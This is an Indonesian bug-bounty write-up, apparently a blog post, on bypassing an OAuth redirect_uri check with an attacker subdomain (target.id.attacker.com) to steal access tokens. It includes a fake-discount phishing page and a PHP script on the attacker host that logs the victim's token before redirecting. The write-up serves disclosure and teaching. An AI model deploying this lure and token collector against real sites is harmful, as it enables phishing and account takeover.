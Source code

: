 ```yaml
---
layout: post
title: Bypass Open Redirect to OAuth Takeover Account
categories: [Web Security, Bug bounty write-up]
author: Rafshanzani Suhada
---
```


Mungkin kalian sudah tidak asing lagi dengan metode `Takeover Account (OAuth)` yang memanfaatkan param `redirect_uri`. Diartikel ini akan menjelaskan Bypass Open Redirect yang mengakibatkan akun diambil alih. Untuk penjelasan apa itu Open Redirect dan Akun takeover kalian dapat membacanya diartikel berikut: 

* <https://cheatsheetseries.owasp.org/cheatsheets/Unvalidated_Redirects_and_Forwards_Cheat_Sheet.html>
* <https://www.imperva.com/learn/application-security/account-takeover-ato/>

Pada umumnya bug ini hanya menambahkan / merubah param menjadi `redirect_uri=https://attacker.com`, namun pada kasus ini saya mendapatkan error pada saat menambahkan param tersebut. Lalu saya muncul ide untuk merubahnya menjadi `redirect_uri=https://target.com.attacker.com/`, cukup kaget dan ini ternyata berhasil.

![Terkejut](https://infosec.zerobyte.id/images/shock.gif)

Jika kurang jelas saya akan menjelaskan lebih detail.

**Request** :
```
https://auth.target.id/login?oidc_sp=google&redirect_uri=https://attacker.com/
```

Pada saat melakukan request tersebut terdapat **error**, Lalu saya merubah param `redirect_uri` menjadi `https://target.id.attacker.com/` dan ternyata berhasil mengalihkan url, jadi request berubah seperti berikut:

**Request** :
```
https://auth.target.id/login?oidc_sp=google&redirect_uri=https://target.id.attacker.com/
```

---

# Skenario

### Server (target.id.attacker.com)

Membuat file yang seolah olah target.id memiliki diskon untuk membeli produk

File: POC.html

```html
<!DOCTYPE html>
<html>
<body>

<h1>Discount 80% Plan Business</h1>

<p><a href="https://auth.target.id/login?oidc_sp=google&redirect_uri=https://target.id.attacker.com/">CLAIM NOW!</a></p>

</body>
</html>
```

File: index.php

```php
<?php
function redirect($url)
{
   header('Location: ' . $url);
   die();
}

$token = "$_SERVER[REQUEST_URI]";

$filetoken = fopen("token_param.txt", "a+") or die("Unable to open file!");
fwrite($filetoken, $token .PHP_EOL);
fclose($myfile);

redirect('https://target.id' . $token);
```

### Steps to Reproduce

* Attacker Mengirim url <https://target.id.attacker.com/POC.html> ke victim
* Ketika diklik "CLAIM NOW" oleh victim maka akan dialihkan ke target.id

Setelah proses tersebut selesai attacker melihat isi file `token_param.txt` yang dimana file tersebut tersimpan `ACCESS TOKEN` dan dapat digunakan untuk login victim.

### Bagaimana cara ambil alih akun dengan token tersebut?

Attacker dapat melakukan login hanya menggunakan `ACCESS TOKEN` tersebut. 

```
https://target.id/{TOKEN_PARAM}
```

---

Pada platform bugbounty di Bugcrowd termasuk P2 (Priority 2) atau High.

![Bugcrowd](https://infosec.zerobyte.id/images/OAuth_Bugcrowd_P2.png)

Dalam kasus ini saya melakukan report diplatform Bugcrowd & mendapatkan reward sebesar $400

![Hore](https://infosec.zerobyte.id/images/Prof-reward_1.png)

Mohon maaf jika yang saya jelaskan kurang jelas, karena saya memang tidak begitu pandai membuat tulisan.

"Tetaplah rendah hati dan selalu memiliki keinginkan untuk menjadi sesuatu yang diinginkan."
